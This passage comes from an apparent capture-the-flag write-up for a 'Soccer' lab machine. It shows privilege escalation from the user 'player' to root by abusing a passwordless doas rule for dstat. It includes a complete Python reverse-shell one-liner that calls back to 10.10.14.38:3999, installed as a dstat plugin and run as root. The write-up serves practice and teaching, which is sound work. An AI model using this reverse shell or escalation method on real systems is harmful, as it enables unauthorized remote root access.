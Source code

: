 
Dump data .

We will get credentials in plain text for player.

## PRIVILLEGE ESCALATION \[ROOT]

We got the ssh credentials using the sql injection in previous section let's login and find a way to escalate our privileges to root.

> We have credentials of player let's run sudo -l

```bash
player@soccer:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
player@soccer:~$ 

```

Let's run linpeas.

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption><p>Nopass dstat</p></figcaption></figure>

{% hint style="info" %}
Doas is a privilege escalation program similar to sudo. It is designed to be as lightweight and simple as possible. It is the default privilege escalation program for OpenBSD but also available for other UNIX-like operating systems through the OpenDoas program.
{% endhint %}

This can be used to gain privileges' of the root. Dstat allows to run custom module. We can make a   module and run it with dstat.

```bash
player@soccer:/tmp/temp$ nano dstat_temp.py 
player@soccer:/tmp/temp$ cat dstat_temp.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",3999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
player@soccer:/tmp/temp$ 

```

Now copy this plugin to dstat directory. and don't forget to start a netcat listner.

```bash
player@soccer:/tmp/temp$ cp dstat_temp.py /usr/local/share/dstat/ 
player@soccer:/tmp/temp$ doas -u root /usr/bin/dstat  --temp
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

```


[^1]: WEBSERVER